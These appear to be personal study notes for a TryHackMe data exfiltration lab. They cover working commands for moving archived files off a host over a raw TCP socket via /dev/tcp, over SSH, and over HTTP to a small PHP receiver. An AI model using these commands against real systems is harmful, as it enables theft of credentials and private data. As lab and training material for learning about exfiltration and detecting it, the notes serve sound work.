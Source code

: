 # Data Exfiltration Techniques

Reference: https://tryhackme.com/room/dataxexfilt

## TCP Socket Data Exfil

Prepare to receive file with netcat(on attacker box):
```
nc -lvp 8080 > /tmp/task4-creds.data
```

Use TCP Socket to exfiltrate data:

1. We used the tar command to create an archive file with the zcf arguments of the content of the secret directory.

2. The z is for using gzip to compress the selected folder, the c is for creating a new archive, and the f is for using an archive file.

3. We then passed the created tar file to the base64 command for converting it to base64 representation.

4. Then, we passed the result of the base64 command to create and copy a backup file with the dd command using EBCDIC encoding data.

5. Finally, we redirect the dd command's output to transfer it using the TCP socket on the specified IP and port, which in this case, port 8080.
```
tar zcf - task4/ | base64 | dd conv=ebcdic > /dev/tcp/192.168.0.133/8080
```

Convert the data back to its original status(On attacker box):
```
dd conv=ascii if=task4-creds.data |base64 -d > task4-creds.tar
```

Use the tar command to unpack the data(On attacker box):
```
tar xvf task4-creds.tar
```

## SSH Data exfiltration

Tar files and tansfer to another box via ssh and untar the files:
1. We used the tar command the same as the previous task to create an archive file of the task5 directory.

2. Then we passed the archived file over the ssh. SSH clients provide a way to execute a single command without having a full session.

3. We passed the command that must be executed in double quotations, "cd /tmp/; tar xpf. In this case, we change the directory and unarchive the passed file.
```
tar cf - task5/ | ssh thm@jump.thm.com "cd /tmp/; tar xpf -"
```

## HTTP Data exfiltration

Contact.php code:
```
<?php
if (isset($_POST['file'])) {
        $file = fopen("/tmp/http.bs64","w");
        fwrite($file, $_POST['file']);
        fclose($file);
}
?>
```

Extract files and send to webserver:
```
curl --data "file=$(tar zcf - task6 | base64)" http://web.thm.com/contact.php
```

Fix empty spaces in base 64 file with sed:
```
sudo sed -i 's/ /+/g' /tmp/http.bs64
```



